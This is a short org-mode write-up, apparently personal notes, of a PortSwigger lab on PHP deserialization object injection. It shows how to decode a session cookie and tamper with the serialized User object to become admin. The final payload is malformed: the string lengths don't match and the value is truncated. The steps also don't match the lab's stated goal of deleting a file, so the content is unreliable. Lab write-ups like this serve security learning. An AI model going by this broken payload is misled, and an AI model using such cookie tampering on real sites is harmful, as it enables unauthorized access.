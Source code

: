 #+title: Arbitrary object injection in PHP
#+author: Gabriel
#+description: portswigger academy easy lab

* Lab

https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-arbitrary-object-injection-in-php

 This lab uses a serialization-based session mechanism and is vulnerable to arbitrary object injection as a result.

 To solve the lab, create and inject a malicious serialized object to delete the ~morale.txt~ file from Carlos's home directory.

Need to obtain source code access to solve this lab.

 * Credentials ->
       wiener:peter

* steps

after logged on, get the cookie with *dev tools*

#+begin_src text
CTRL + SHITF + i

APplication > Storage > Cookies
#+end_src

Decode the cookie with ->

#+begin_src sh
echo 'Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ1Mm40cmE3NGhzY2RlYndkbW9oamIwYzczbGw2bW5zNiI7fQ==' | base64 -d
#+end_src

#+begin_src text
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"u2n4ra74hscdeb
wdmohjb0c73ll6mns6";}
#+end_src

Modify the username to Admin and the change the type of the access_token value ->

 * admin has 5 characters

#+begin_src text
O:4:"User":2:{s:8:"username";s:5:"admin";s:12:"access_token";s:32:"u2n4ra74hscd;}
#+end_src
